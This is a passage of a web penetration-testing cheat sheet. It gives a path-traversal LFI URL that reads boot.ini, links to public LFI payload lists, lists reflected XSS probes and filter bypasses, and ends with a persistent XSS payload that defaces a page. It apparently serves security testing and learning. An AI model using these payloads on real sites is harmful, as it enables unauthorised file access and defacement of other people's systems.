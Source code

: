 ```shell
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Encode

## XSS

### Reflected

#### Simple test

This is a simple test to see what happens, this is not a prove that the field is vuln to XSS:

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```

```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

```javascript
" onload="alert('XSS')
```

`bla` is not a valid image, so this cause an error:

```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
```

